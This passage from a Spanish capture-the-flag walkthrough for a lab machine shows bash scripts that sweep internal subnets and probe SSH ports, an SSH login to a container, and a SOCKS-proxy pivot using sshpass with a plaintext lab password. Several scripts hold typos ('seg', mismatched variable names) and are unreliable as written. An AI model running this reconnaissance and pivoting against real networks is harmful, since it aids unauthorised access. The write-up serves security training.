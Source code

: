 ```powershell
#!/bin/bash
networks=$(hostname -I)

for net in $\{networks[@]}; do
echo -e "\\n[+] Escaneando el puerto $net.0/22:\\n"
for i in $(seg 1 254); do
timeout 1 bash -c  "ping -c 1 $network.$i" &>/dev/null && echo -e "[+] Host: $network.$i - Open" &
done; wait
done
```

Ahora teniendo los hostname terminando en <i>.0</i> crearemos otro script para ver en cuál de ellos está el puerto 22 abierto.

```powershell
#!/bin/bash
hostnames=(172.18.0.100 172.18.0.101 172.18.0.102 172.18.0.2 172.19.0.2 172.19.0.3)

for host in $\{hostnames[@]}; do
timeout 1 bash -c  "echo '' > /dev/tcp/$host/22" 2>/dev/null && echo "[+] Puerto 22 esta abierto en $host"
done

drew@earlyacccess:/tmp$ ./port22Open.sh
[+] Puerto 22 esta abierto en 172.19.0.3
```

Ahora nos conectamos por <i>ssh</i> a la <i>172.19.0.3</i>

```powershell
drew@earlyacccess:~/.ssh$ ssh game-tester@172.19.0.3
```

Ahora estamos como <i>game-tester</i> con el host <i>game-server</i> tal vez en algún puerto de este
host está corriendo el servidor web para ello vemos...

```powershell
game-tester@game-server:/$ ss -nltp
...
LISTEN  0   128   *:9999  *:*
...
```

de primeras no tenemos resolución a esa ruta que está en un contenedor pero podríamos ingresar
con ssh y el parámetro -D

```powershell
sshpass -p "XeoNu86JTznxMCQuGHrGutF3Csq5" ssh drew@10.10.11.110 -D 1080
```

con la extensión de foxy proxy por ejemplo configuramos...

<img
src='https://res.cloudinary.com/djc1umong/image/upload/v1686606076/early_foxy_proxy_tg6bm1.webp'
/>
